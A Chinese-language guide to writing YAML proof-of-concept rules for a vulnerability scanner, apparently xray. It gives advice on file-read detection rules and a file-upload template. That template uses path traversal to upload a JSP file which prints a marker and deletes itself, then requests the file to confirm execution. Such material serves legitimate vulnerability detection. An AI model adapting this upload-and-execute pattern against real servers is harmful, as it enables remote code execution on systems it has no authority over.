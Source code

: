 在这类漏洞中，必然至少有一个rule会去访问我们所需要读取的文件，那么

- 对于`读取文件`的rule中
	1. 关于读取的文件
		- 需要按照漏洞的利用方式去读取相关的文件
		- 如果目标系统中存在着某些通用的配置文件，那么首先推荐去读取这些web系统内的文件，尽可能地减少发包量
		- 其次我们再去考虑系统中的文件，这部分内容建议参考现在我们给出的poc模版相关内容。同时需要注意的是，读取系统文件时，我们需要充分考虑目标web系统能够被架设在哪些系统上，对于可行的系统都要写出相应的rule去进行匹配
	2. 关于匹配的内容
		- 这部分直接依据所读取的文件写出对应的匹配语句即可。但是需要注意的是，除了固有文件内容的匹配之外，如果页面内仍有其他特征内容，这里也是非常推荐去增加匹配这些内容

其他rule的内容需要按照漏洞的具体内容按需编写

## file upload（文件上传）

### 普通情况

```yaml
name: poc-yaml-test-upload-cve-xxx-xxxx
manual: true
transport: http
set:
	s1: randomInt(1000000000, 9000000000)
	s2: randomLowercase(20)
	rBoundary: randomLowercase(8)
rules:
	r0:
		request:
			cache: true
			method: POST
			path: /UploadFileData?action=upload_file&foldername=%2e%2e%2f&filename={{s2}}.jsp
			body: "\
				------WebKitFormBoundary{{rBoundary}}\r\n\
				Content-Disposition: form-data; name=\"myFile\"; filename=\"test.jpg\"\r\n\
				\r\n\
				<% out.println(\"{{s1}}\"); new java.io.File(application.getRealPath(request.getServletPath())).delete();%>\r\n\
				------WebKitFormBoundary{{rBoundary}}--\r\n\
				"
			headers:
				Content-Type: multipart/form-data
		expression: response.status == 200 && response.body.bcontains(b"showSucceedMsg")
	r1:
		request:
			cache: true
			method: GET
			path: /xxxPath/{{s2}}.jsp
		expression: response.status == 200 && response.body.bcontains(bytes(string(s1)))
expression: r0() && r1()
detail:
	author: chaitin
	links:
		- http://example.com
```
